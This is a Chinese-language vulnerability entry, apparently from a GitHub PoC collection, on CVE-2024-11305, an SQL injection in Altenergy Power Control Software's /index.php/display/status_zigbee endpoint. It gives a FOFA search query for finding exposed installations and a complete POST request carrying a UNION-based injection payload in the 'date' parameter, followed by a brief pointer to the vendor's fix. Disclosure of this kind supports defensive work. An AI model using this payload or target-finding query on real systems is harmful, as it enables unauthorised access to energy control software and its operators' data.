

# Altenergy电力系统控制软件 status_zigbee SQL注入漏洞(CVE-2024-11305)

# 漏洞描述

Altenergy 电力系统控制软件中发现了一个被归类为严重漏洞。此漏洞影响文件 /index.php/display/status_zigbee 的 get_status_zigbee 函数。使用未知输入操纵参数 date 会导致 sql 注入漏洞。

# 影响版本

Altenergy 电力系统控制软件

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title="Altenergy Power Control Software"

POC/EXP：

POST /index.php/display/status_zigbee HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close

date=2024-11-06%' UNION ALL SELECT 11,CHAR(113)||CHAR(75,101,86,69,115,83,113,89,100,122,121,102,83,83,113,86,84,112,100,103,69,75,80,117,88,109,83,105,89,116,110,120,76,84,73,109,115,100,83,107)||CHAR(113,118,98,98,113),11-- wPIB

# 漏洞修复

目前厂商已发布修复措施解决此安全问题，

建议使用此软件的用户参考网址获取解决方案：https://apsystems.com/。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
